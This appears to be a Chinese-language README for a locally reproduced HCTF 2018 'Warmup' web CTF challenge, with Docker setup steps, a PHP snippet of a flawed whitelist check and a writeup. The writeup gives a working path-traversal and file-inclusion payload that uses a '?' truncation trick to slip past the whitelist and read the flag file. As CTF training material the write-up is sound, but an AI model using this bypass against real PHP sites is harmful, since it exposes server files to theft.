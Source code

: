 # HCTF 2018 Warmup

## 题目详情

* HCTF 2018 Web 签到题

## 考点
* 代码审计
```php

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

## 启动
* docker-compose up -d
* open http://127.0.0.1:8081/index.php

## Writeup
![20181113154210017010415.png](http://image.cocoli.top/20181113154210017010415.png)
`http://127.0.0.1:8081/index.php?file=hint.php?/../../../../../../../../ffffllllaaaagggg`
可以利用?截取hint.php，然后利用/使hint.php?成为一个不存在的目录，最后include利用../../跳转目录读取flag

## 版权
该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（ cocolizdf@gmail.com）

凭印象弄的,稍微有一些改变,题目考点不变.
官方题目代码https://github.com/vidar-team/HCTF2018






